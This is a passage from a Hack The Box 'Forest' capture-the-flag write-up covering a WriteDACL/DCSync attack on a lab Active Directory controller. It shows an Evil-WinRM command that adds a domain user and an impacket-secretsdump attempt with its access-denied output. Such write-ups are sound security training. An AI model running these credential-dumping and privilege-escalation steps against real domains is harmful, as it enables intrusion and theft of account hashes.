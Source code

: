 ![](assets/img/htb/forest/info1.png)
### write dacl attack
to perform this attack first I'll create a new user on the domain 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user wxrdcn password123 /add /domain
The command completed successfully.
```

first if I try secretsdump with the user I created, this gives an access denied error but when the dcsync attack is performed I will be able to see the hashes from another users

```bash
$ impacket-secretsdump htb.local/wxrdcn:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

to do this first I have to add then new user to the group exchange windows permissions 

![](assets/img/htb/forest/path3.png)

